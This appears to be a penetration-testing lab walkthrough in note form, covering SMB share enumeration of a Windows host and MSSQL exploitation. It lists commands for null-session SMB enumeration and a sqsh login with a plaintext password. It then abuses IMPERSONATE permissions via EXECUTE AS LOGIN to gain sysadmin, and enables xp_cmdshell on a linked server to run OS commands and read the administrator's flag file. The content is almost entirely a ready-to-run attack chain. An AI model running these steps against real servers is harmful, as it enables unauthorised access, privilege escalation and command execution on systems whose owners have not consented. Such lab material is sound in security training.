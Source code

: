PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server

smbclient -N -L \\\\10.129.203.10
smbmap -H 10.129.203.10 -u null -p ''
crackmapexec smb 10.129.203.10 --shares

smbclient \\\\10.129.203.10\\Home
smbclient \\\\10.129.203.10\\IPC$

sqsh -S 10.129.251.81 -U .\\Fiona -P '48Ns72!bns74@S84NNNSl' 

1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

1> EXECUTE AS LOGIN = 'john'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

Identify linked Servers in MSSQL
1> SELECT srvname, isremote FROM sysservers
2> GO

EXECUTE('EXECUTE sp_configure ''show advanced options'', 1') AT [LOCAL.TEST.LINKED.SRV]
EXECUTE('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
EXECUTE('EXECUTE sp_configure ''xp_cmdshell'', 1') AT [LOCAL.TEST.LINKED.SRV]
EXECUTE('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
EXECUTE('xp_cmdshell whoami') AT [LOCAL.TEST.LINKED.SRV]
EXECUTE('xp_cmdshell "type c:\users\administrator\desktop\flag.txt"') AT [LOCAL.TEST.LINKED.SRV]